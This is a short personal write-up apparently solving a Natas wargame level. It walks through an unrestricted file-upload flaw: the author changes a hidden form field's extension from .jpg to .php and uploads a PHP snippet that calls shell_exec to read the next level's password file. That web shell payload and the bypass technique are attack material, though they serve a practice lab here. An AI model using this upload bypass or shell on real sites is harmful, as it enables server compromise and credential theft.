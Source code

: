> JPG upload
- i noticed in the php source code there was a lot going on w paths, so I decided to upload a random image and see what path it assigned
- after uploading, it created the path `upload/31015rouhv.jpg`
- navigating to the `upload` page, I get a 403 forbidden error
- this part of the code caught my eye
```php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
```
- I tried directory traversing by changing the filename, but windows didn't allow the name (rude but wtv)
- then I had this wild realization
- none of my file uploads have been jpeg images, so it'll take any file that's under a KB
- plus, the file extension literally doesn't matter; it's just replaced with jpg:
```php
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```
- we can change the file extension later, but for now we make a php file:
```
<?php
$pass= shell_exec('cat /etc/natas_webpass/natas13');
echo "<pre>$pass</pre>";
?>
```
- before uploading the file, we change this part of the code using inspect:
```html
<input type="hidden" name="filename" value="h1v1kpgdru.jpg">
```
- to this:
```html
<input type="hidden" name="filename" value="h1v1kpgdru.php">
```
- the output `The file upload/3r6hcmpt63.php has been uploaded` contains the correct file extension, and navigating to the path gives us the password
